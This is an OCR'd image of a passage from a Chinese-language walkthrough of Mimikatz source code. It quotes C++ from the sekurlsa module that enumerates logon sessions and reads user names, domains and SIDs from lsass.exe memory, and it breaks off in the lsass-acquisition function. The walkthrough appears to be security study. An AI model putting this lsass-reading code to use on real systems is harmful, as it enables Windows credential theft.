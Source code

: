 ```c++
                            kull_m_process_getUnicodeString(sessionData.UserName, cLsass.hLsassMem);
                            kull_m_process_getUnicodeString(sessionData.LogonDomain, cLsass.hLsassMem);
                            kull_m_process_getUnicodeString(sessionData.LogonServer, cLsass.hLsassMem);
                            kull_m_process_getSid(&sessionData.pSid, cLsass.hLsassMem);

                            retCallback = callback(&sessionData, pOptionalData);

                            if(sessionData.UserName->Buffer)
                                LocalFree(sessionData.UserName->Buffer);
                            if(sessionData.LogonDomain->Buffer)
                                LocalFree(sessionData.LogonDomain->Buffer);
                            if(sessionData.LogonServer->Buffer)
                                LocalFree(sessionData.LogonServer->Buffer);
                            if(sessionData.pSid)
                                LocalFree(sessionData.pSid);

                            data.address = ((PLIST_ENTRY) (aBuffer.address))->Flink;
                        }
                        else break;
                    }
                }
                LocalFree(aBuffer.address);
            }
        }
    }
    return status;
}
```

`kuhl_m_sekurlsa_enum()` 内部首先会调用 `kuhl_m_sekurlsa_acquireLSA()` 函数，用来提取 lsass.exe 的进程信息。

Extract LSA Information
=======================

跟进 `kuhl_m_sekurlsa_acquireLSA()` 函数：

- sekurlsa\\kuhl\_m\_sekurlsa.c

```c++
NTSTATUS kuhl_m_sekurlsa_acquireLSA()
{
    NTSTATUS status = STATUS_SUCCESS;
    KULL_M_MEMORY_TYPE Type;
    HANDLE hData = NULL;
    DWORD pid, cbSk;
    PMINIDUMP_SYSTEM_INFO pInfos;
    DWORD processRights = PROCESS_VM_READ | ((MIMIKATZ_NT_MAJOR_VERSION < 6) ? PROCESS_QUERY_INFORMATION : PROCESS_QUERY_LIMITED_INFORMATION);
    BOOL isError = FALSE;
    PBYTE pSk;

    // 
    if(!cLsass.hLsassMem)
    {
        status = STATUS_NOT_FOUND;
        if(pMinidumpName)
        {
            // ...
        }
        else
        {
            Type = KULL_M_MEMORY_TYPE_PROCESS;
```
